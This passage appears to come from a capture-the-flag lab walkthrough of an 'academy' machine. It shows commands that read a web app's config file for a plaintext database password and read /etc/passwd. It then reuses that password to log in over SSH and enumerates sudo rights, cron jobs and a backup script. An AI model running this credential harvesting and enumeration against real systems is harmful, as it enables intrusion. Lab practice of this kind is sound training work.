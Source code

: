 ![](.gitbook/assets/2024-07-14_11-51-24_614.png)

- Check for interesting data

```bash
* * * * * /home/grimmie/backup.sh

/var/www/html/academy/admin/includes/config.php:$mysql_password = "My_V3ryS3cur3_P4ss";
```

```bash
cat /var/www/html/academy/admin/includes/config.php

<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```

```bash
cat /etc/passwd

grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash
```

```bash
# Kali
ssh grimmie@192.168.31.128
# Paste My_V3ryS3cur3_P4ss password

grimmie@academy:~$

sudo -l
history
cat /home/grimmie/backup.sh

    #!/bin/bash
    rm /tmp/backup.zip
    zip -r /tmp/backup.zip /var/www/html/academy/includes
    chmod 700 /tmp/backup.zip
    
crontab -l
# no crontab for grimmie
crontab -u root -l
# must be privileged
systemctl list-timers
```

➡️ [pspy](https://github.com/DominicBreuker/pspy) - Monitor linux processes without root permissions
